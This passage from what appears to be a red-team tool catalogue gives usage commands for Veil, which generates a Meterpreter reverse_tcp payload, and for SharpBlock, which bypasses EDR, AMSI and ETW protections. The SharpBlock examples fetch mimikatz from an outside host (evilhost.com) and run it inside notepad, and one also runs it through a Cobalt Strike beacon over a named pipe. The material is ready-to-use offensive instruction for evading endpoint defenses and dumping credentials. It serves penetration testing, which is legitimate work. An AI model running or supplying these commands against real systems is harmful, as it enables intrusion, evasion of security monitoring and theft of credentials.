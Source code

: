 ```bash
# Generate shellcode using Evasion, payload number 41, reverse_tcp to 192.168.1.4 on port 8676, output file chris
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
```

Veil creators wrote a nice [blog post](https://www.veil-framework.com/veil-command-line-usage/) explaining further ordnance and evasion command line usage.

![image](https://user-images.githubusercontent.com/100603074/210136422-6b17671f-8868-4747-a7fe-e75d36b99e61.png)

### [🔙](#tool-list)[SharpBlock](https://github.com/CCob/SharpBlock)

A method of bypassing EDR's active projection DLL's by preventing entry point execution.

**Features:**

- Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
- Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
- Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike).
- Implanted process is hidden to help evade scanners looking for hollowed processes.
- Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
- Patchless ETW bypass.
- Blocks NtProtectVirtualMemory invocation when callee is within the range of a blocked DLL's address space.

**Install:** 

Use [Visual Studio 2019 Community Edition](https://visualstudio.microsoft.com/vs/community/) to compile the SharpBlock binary.

Open the SharpBlock [project .sln](https://github.com/CCob/SharpBlock), choose "Release", and build.

**Usage:** 

```bash
# Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee

# Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```

Nice PenTestPartners blog post [here](https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/).
